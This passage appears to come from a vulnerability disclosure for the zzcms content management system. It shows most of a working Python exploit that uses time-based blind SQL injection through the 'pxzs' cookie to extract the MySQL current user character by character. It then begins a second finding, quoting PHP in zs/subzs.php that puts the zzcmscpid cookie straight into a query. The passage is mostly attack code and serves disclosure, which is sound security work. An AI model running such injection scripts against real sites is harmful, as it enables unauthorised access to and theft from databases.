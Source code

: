 ```python
        if time.time() - starttime > 1:
            rlen = i - 1
            print("the length of current user is : %d\n" %rlen)
            break

    for j in range(1, rlen+1):
        for payload in payloads:
            char = ord(payload) + 1
            starttime = time.time()
            pxzs = "(SELECT(1)FROM(SELECT(SLEEP((%d-(select conv(hex(mid(user(),%d,1)),16,10)))*1)))abcd)" %(char, j)
            cookies["pxzs"] = pxzs
            res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
            if time.time() - starttime > 1:
                result += payload
                print('current user is:', result)
                break
            else:
                pass
    print('\n[Finally] current user is %s' % result)

if __name__ == '__main__':
    host = '172.18.120.76'
    zs_sqli(host)    

```

got the mysql current user as following:

![image-20180915231931575](/Users/kunkun/Library/Application Support/typora-user-images/image-20180915231931575.png)

------

## 5. SQL Injecton in zs/subzs.php with COOKIE zzcmscpid

first find an sql expression in zs/subzs.php useing zzcmscpid of cookie without any checking:

bettween line 12 and 20 in function showcookiezs()

```php
$cpid=$_COOKIE["zzcmscpid"];
	if (strpos($cpid,",")>0){
		$cpid=str_replace(" ","",$cpid);
		$cpid=str_replace("deleted","",$cpid);//cookie会出现deleted的情况
		$sql="select id,proname,img from zzcms_main where id in (".$cpid.")";
	}else{
	checkid($cpid);
	$sql="select id,proname,img from zzcms_main where id='$cpid' ";
	}
```


